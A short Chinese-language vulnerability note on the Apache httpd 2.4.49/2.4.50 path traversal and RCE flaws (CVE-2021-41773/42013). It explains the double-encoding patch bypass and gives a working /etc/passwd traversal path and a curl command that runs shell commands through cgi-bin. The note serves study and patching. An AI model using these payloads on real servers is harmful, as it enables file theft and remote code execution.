

### 一 漏洞描述
Apache HTTP Server 是 Apache 基础开放的流行的 HTTP 服务器。其存在目录穿越文件读取漏洞，漏洞仅影响 httpd 2.4.49， https 2.4.50不完全修复可绕过，如果开启 mod_cgi 则可RCE。

2.4.50 添加的补丁是对 .%2e 和 %2e%2e 进行了校验，但是我们在 request.c 中注意到还会调用 ap_unescape_url 来对 url 进行又一次的编码，所以通过两次编码就可以绕过。

CVE-2021-41773——版本等于2.4.49
CVE-2021-42013——版本等于2.4.49/50

### 二 漏洞利用
/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

命令执行:  
```
curl -d "echo;id" "http://localhost:8888/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash"
```


### 三 漏洞修复
升级

> 参考链接  
> https://blog.csdn.net/qq_38154820/article/details/123267562  
> https://blog.csdn.net/weixin_45260839/article/details/125113167
